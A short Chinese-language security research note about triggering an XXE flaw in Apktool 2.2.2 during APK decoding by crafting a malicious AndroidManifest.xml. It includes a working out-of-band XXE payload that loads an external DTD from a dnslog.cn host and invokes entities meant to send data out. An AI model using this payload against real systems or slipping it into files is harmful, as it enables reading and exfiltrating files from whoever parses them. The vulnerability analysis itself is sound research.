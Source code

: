 2.2.2 这里的 XXE 是需要 build apk 的时候才能触发 那能够在 decode 的时候触发 XXE 吗  
在 thinkycx 师傅的博客里提到了 - [https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5](https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5)  
[![](assets/1706146429-6a0c733fb212adeae67915d5f8708451.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705639269639-f9f2b090-8b6f-4c60-9d7c-7d1e8311e8ef.png#averageHue=%238f8e8a&clientId=u149252e1-0fd9-4&from=paste&height=459&id=ubc114732&originHeight=688&originWidth=881&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=104352&status=done&style=none&taskId=u9263309e-7100-4c6e-90b2-a0f458702cb&title=&width=587.3333333333334)  
但是看起来当时应该没有构造出这个恶意 APK  
那么我们是否可以使用 010editor 来构造这个恶意 AndroidManifest.xml 文件，直接生成对应的 APK，让 apktool2.2.2 decode 的时候触发 XXE  
使用 dnslog 来构造恶意 XML，测试之后发现这样是可以触发的

```bash
<!DOCTYPE root [
        <!ENTITY  % dtd  SYSTEM "http://b5g7im.dnslog.cn">
        %dtd;
        %all;
        %send;
        ]>
<resources>
    <string name="app_name">My Application</string>
    <string name="test">
        aaaa
    </string>
</resources>
```
